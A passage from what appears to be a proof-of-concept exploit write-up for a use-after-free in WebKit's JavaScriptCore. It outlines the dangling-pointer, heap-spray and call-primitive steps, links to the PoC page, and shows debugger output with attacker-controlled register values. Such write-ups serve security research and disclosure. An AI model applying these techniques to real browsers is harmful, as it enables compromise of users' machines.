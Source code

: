 ***Continue our exploitation approach:***

<br>

replace the backing storage of a dangling pointer (one of those 'objects') <br>
such as that it would be interpreted as a function.<br>
spam the cache with controlled data <br>
call the function: <a href="/call_primitive.html">yo $pc you told BBB that you would call him back..</a><br>
NOTE: this poc require about 400mb of ram heap spray.<br>
and a couple of seconds to run, but as such its not a 100% success rate.<br>
you can achieve a 100% success rate, but that would require about 2.1gb,<br>
and some more waiting as a result. this is more reliable when opening the browser<br>
for the first time..<br>

p.s: the upper bits can be controlled as well..<br>

***successfull run should produce:***

<br>

```c
Process 18155 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=EXC_I386_GPFLT)
    frame #0: 0x00000001087bd3a0 JavaScriptCore`JSC::handleHostCall(JSC::ExecState*, JSC::JSValue, JSC::CallLinkInfo*) + 272
JavaScriptCore`JSC::handleHostCall:
->  0x1087bd3a0 <+272>: movq   0x40(%rax), %rax
    0x1087bd3a4 <+276>: leaq   -0x48(%rbp), %rsi
    0x1087bd3a8 <+280>: movq   %rbx, %rdi
    0x1087bd3ab <+283>: callq  *0x30(%rax)
Target 0: (com.apple.WebKit.WebContent) stopped.
(lldb) reg r rax
     rax = 0x2042424242424242
(lldb) 
       
```

***PoC***

![](/p2.png)
